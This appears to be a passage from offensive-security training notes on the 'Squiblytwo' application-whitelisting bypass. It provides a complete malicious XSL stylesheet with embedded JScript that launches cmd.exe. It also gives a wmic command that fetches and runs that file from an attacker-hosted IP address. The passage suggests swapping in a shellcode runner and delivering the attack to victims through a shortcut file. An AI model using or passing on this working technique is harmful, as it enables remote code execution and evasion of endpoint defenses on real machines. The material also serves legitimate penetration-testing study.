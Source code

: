 ## Alternate
It's beneficial to prepare multiple bypasses in the event one is blocked.
The process of XSLT uses _Extensible Stylesheet Language_ (.xsl) documents to transform an XML document into a different format such as _XHTML_.

Part of the XSL transformation specification allows execution of embedded Jscript code when processing the supplied XML document. Security researchers have discovered an XSL transformation attack (_Squiblytwo_) that allows arbitrary code execution when triggered.

To leverage this, we must first craft a malicious XSL document and put it on our Apache webserver.

We start by creating the document:
```xml
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell");
			r.Run("cmd.exe");
		]]>
	</ms:script>
</stylesheet>
```

We can now trigger the execution through the WMI command-line utility (WMIC) by specifying the verb get and the /format: switch followed by the URL of the XSL file.

```shell 
wmic process get brief /format:"http://192.168.49.135/test.xsl"
```

Once the code is executed, our execution is triggered.

This application whitelisting technique can also be leveraged through a shortcut file that we provide to the victim. To weaponize this, we can modify the Jscript code inside the XSL file to contain a DotNetToJscript C# shellcode runner or any other payload we desire.
